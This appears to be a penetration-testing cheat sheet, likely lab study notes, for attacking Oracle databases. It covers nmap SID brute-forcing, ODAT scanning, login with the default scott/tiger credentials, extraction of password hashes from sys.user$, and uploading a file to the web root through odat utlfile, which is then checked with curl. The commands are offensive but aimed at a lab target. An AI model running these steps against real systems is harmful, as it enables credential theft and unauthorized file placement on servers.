 ##### <mark class="hltr-orange">Footprinting</mark>
- Nmap
```
sudo nmap -p1521 -sV 10.129.204.235 --open
```
A System Identifier (`SID`) is a unique name that identifies a particular database instance

- Nmap - SID Bruteforcing
```
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
```

- ODAT
```
odat all -s 10.129.204.235
```

- SQLplus - Log In
```
sqlplus scott/tiger@10.129.204.235/XE
```
- Oracle RDBMS - Interaction
```
select table_name from all_tables;
select * from user_role_privs;
```

- Oracle RDBMS - Database Enumeration
This is possible if the user has sysdba privilege
```shell-session
sqlplus scott/tiger@10.129.204.235/XE as sysdba
select * from user_role_privs;
```

- Oracle RDBMS - Extract Password Hashes
```
select name, password from sys.user$;
```

- Oracle RDBMS - File Upload (WEB)
On Windows:
```
echo "Oracle File Upload Test" > testing.txt
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

On Linux:
```
echo "Oracle File Upload Test" > testing.txt
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile /var/www/html testing.txt ./testing.txt
```

Finally, we can test if the file upload approach worked with `curl`. Therefore, we will use a `GET http://<IP>` request, or we can visit via browser.

```shell-session
curl -X GET http://10.129.204.235/testing.txt
```

